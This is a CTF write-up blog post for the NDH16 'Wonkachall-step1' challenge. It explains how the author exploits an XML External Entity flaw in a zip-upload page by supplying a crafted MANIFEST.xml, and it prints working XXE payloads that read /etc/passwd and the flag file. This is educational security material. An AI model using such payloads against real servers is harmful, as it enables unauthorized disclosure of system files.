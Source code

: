 ```yaml
---
layout: post
title:  "XML External Entities: Wonkachall-step1 - NDH16"
date:   2018-07-03 22:00:00 +0200
comments: true
author: BoiteAKlou
categories:
- "Web"
---
```


This challenge covers one of the most efficient and popular attack against web servers. It is also the first of a series of 6 challenges from the NDH16 public CTF.

 <!--excerpt-->

# Table of Contents
{:.no_toc}

* TOC
{:toc}

## Challenge description

We have [a website](http://willywonka.shop:4242/) which is actually The Golden Ticket Blackmarket platform. It proposes a list of purchasable golden tickets where each ticket has a bitcoin cost, a name and an address.

![Wonka Shop screen capture]({{ "/assets/2018-07-03/tickets.png" | absolute_url }} "Willy Wonka Shop")

The challenge statement says that the flag is stored in ""/flags.txt". The objective is to take control of this website. Hurry up!

## Take my Golden Ticket!

The first reflex to have when you arrive on a website should be to hit "CTRL+U" and dive deep into the source code.
The vast majority of this website is static at the exception of the "/upload.php" page. We are able to upload a zip archive containing a **MANIFEST.xml** and a **Ticket** as shown in the provided example.

![Upload page screen capture]({{ "/assets/2018-07-03/upload.png" | absolute_url }} "Upload page"){:width="80%"}

The **Ticket file** contains a string representing the content of the Golden Ticket and the **MANIFEST.xml** stores the three variables displayed on the home page for each ticket, as shown below:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>xxx</adresseBTC>
</root>
```

Wait a second... it means that the server is parsing XML files in order to get these values... Very interesting! :smiling_imp:

Have you ever heard of XML external entities?

## That's not a Ticket

XML External Entity Processing attack aim at exploiting **weakly configured XML parsers**. The objective is to reference external entities inside the XML document in order to **access local resources** or to **execute code remotely**.

Alright, now let's modify our MANIFEST.xml to detect if the website is vulnerable. I suggest the following payload, supposed to include "/etc/passwd" and to display it in place of the ticket's address:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

Then we zip the MANIFEST and the Ticket, we upload it and... :tada:

![XXE disclosure]({{ "/assets/2018-07-03/etcpasswd.png" | absolute_url }} "/etc/passwd"){:width="80%"}

Say Hello to the list of users!

Fine, now we can forge the payload that will allow us to retrieve the flag located under "/flag.txt". This is basically the same payload as before in which we replace the target file as follows:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<root>
	<entreprise>xxx</entreprise>
	<prixBTC>xxx BTC</prixBTC>
	<adresseBTC>&xxe;</adresseBTC>
</root>
```

And here comes the reward! :triangular_flag_on_post:

![XXE disclosure]({{ "/assets/2018-07-03/flag.png" | absolute_url }} "Flag"){:width="80%"}

You can now read the writeup of Wonkachall-step2 :wink:



BoiteAKlou :hammer:
